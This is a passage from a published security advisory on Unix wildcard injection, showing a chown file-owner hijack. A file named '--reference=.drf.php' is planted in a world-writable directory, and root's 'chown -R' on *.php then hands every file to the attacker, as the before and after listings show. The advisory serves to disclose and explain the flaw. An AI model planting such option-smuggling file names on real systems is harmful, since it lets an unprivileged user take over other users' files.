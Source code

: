 From: https://www.defensecode.com/public/DefenseCode_Unix_WildCards_Gone_Wild.txt

==[ 4.1 Chown file reference trick (file owner hijacking)

First really interesting target I've stumbled across is 'chown'.
Let's say that we have some publicly writeable directory with bunch of
PHP files in there, and root user wants to change owner of all PHP files to 'nobody'.
Pay attention to the file owners in the following files list.

[root@defensecode public]# ls -al
total 52
drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
drwx------. 22 user user 4096 Oct 28 17:34 ..
-rw-rw-r--.  1 user user   66 Oct 28 17:36 admin.php
-rw-rw-r--.  1 user user   34 Oct 28 17:35 ado.php
-rw-rw-r--.  1 user user   80 Oct 28 17:44 config.php
-rw-rw-r--.  1 user user  187 Oct 28 17:44 db.php
-rw-rw-r--.  1 user user  201 Oct 28 17:35 download.php
-rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
-rw-rw-r--.  1 user user   43 Oct 28 17:35 file1.php
-rw-rw-r--.  1 user user   56 Oct 28 17:47 footer.php
-rw-rw-r--.  1 user user  357 Oct 28 17:36 global.php
-rw-rw-r--.  1 user user  225 Oct 28 17:35 header.php
-rw-rw-r--.  1 user user  117 Oct 28 17:35 inc.php
-rw-rw-r--.  1 user user  111 Oct 28 17:38 index.php
-rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
-rw-rw----.  1 user user   66 Oct 28 17:35 password.inc.php
-rw-rw-r--.  1 user user   94 Oct 28 17:35 script.php

Files in this public directory are mostly owned by the user named 'user',
and root user will now change that to 'nobody'.

[root@defensecode public]# chown -R nobody:nobody *.php

Let's see who owns files now...

[root@defensecode public]# ls -al
total 52
drwxrwxrwx.  2 user user 4096 Oct 28 17:47 .
drwx------. 22 user user 4096 Oct 28 17:34 ..
-rw-rw-r--.  1 leon leon   66 Oct 28 17:36 admin.php
-rw-rw-r--.  1 leon leon   34 Oct 28 17:35 ado.php
-rw-rw-r--.  1 leon leon   80 Oct 28 17:44 config.php
-rw-rw-r--.  1 leon leon  187 Oct 28 17:44 db.php
-rw-rw-r--.  1 leon leon  201 Oct 28 17:35 download.php
-rw-r--r--.  1 leon leon    0 Oct 28 17:40 .drf.php
-rw-rw-r--.  1 leon leon   43 Oct 28 17:35 file1.php
-rw-rw-r--.  1 leon leon   56 Oct 28 17:47 footer.php
-rw-rw-r--.  1 leon leon  357 Oct 28 17:36 global.php
-rw-rw-r--.  1 leon leon  225 Oct 28 17:35 header.php
-rw-rw-r--.  1 leon leon  117 Oct 28 17:35 inc.php
-rw-rw-r--.  1 leon leon  111 Oct 28 17:38 index.php
-rw-rw-r--.  1 leon leon    0 Oct 28 17:45 --reference=.drf.php
-rw-rw----.  1 leon leon   66 Oct 28 17:35 password.inc.php
-rw-rw-r--.  1 leon leon   94 Oct 28 17:35 script.php
